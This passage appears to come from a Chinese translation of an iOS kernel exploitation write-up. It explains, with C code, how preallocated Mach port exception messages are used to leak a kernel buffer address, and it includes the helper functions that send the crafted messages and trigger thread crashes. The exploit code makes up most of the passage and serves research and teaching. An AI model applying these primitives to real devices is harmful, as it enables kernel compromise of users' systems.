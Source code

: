 ```
    first-&gt;ikm_prev = kmsg;
    last-&gt;ikm_next = kmsg;
  }
}
```

如果端口有挂起的消息，则ipc_kmsg的ikm_next和ikm_prev字段将指向挂起的消息的双向链接列表。但如果端口没有挂起的消息，那么ikm_next和ikm_prev都设置为指向本身的kmsg。下面我们使用这个事实来读回第二个ipc_kmsg缓冲区的地址： 



```
uint64_t valid_header[] = {0xc40, 0, 0, 0, 0, 0, 0, 0};
  send_prealloc_msg(first_port, valid_header, 8);
  // send a message to the second port
  // writing a pointer to itself in the prealloc buffer
  send_prealloc_msg(second_port, valid_header, 8);
  // receive on the first port, reading the header of the second:
  uint64_t* buf = receive_prealloc_msg(first_port);
  // this is the address of second port
  kernel_buffer_base = buf[1];
```

[![](./img/86003/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01cc3624d43d299e8f.png)

下面是send_prealloc_msg的实现： 



```
void send_prealloc_msg(mach_port_t port, uint64_t* buf, int n) {
  struct thread_args* args = malloc(sizeof(struct thread_args));
  memset(args, 0, sizeof(struct thread_args));
  memcpy(args-&gt;buf, buf, n*8);
  args-&gt;exception_port = port;
  // start a new thread passing it the buffer and the exception port
  pthread_t t;
  pthread_create(&amp;t, NULL, do_thread, (void*)args);
  // associate the pthread_t with the port 
  // so that we can join the correct pthread
  // when we receive the exception message and it exits:
  kern_return_t err = mach_port_set_context(mach_task_self(),
                                            port,
                                            (mach_port_context_t)t);
  // wait until the message has actually been sent:
  while(!port_has_message(port)){;}
}
```

请记住，要将受控数据导入端口预分配的ipc_kmsg中，我们需要内核向其发送异常消息，因此send_prealloc_msg必须导致该异常才行。它需要分配一个 thread_args结构，其中包含在消息和目标端口中所需的受控数据的副本，然后启动将调用do_thread的新线程： 



```
void* do_thread(void* arg) {
  struct thread_args* args = (struct thread_args*)arg;
  uint64_t buf[32];
  memcpy(buf, args-&gt;buf, sizeof(buf));
  kern_return_t err;
  err = thread_set_exception_ports(mach_thread_self(),
                                   EXC_MASK_ALL,
                                   args-&gt;exception_port,
                                   EXCEPTION_STATE,
                                   ARM_THREAD_STATE64);
  free(args);
  load_regs_and_crash(buf);
  return NULL;
}
```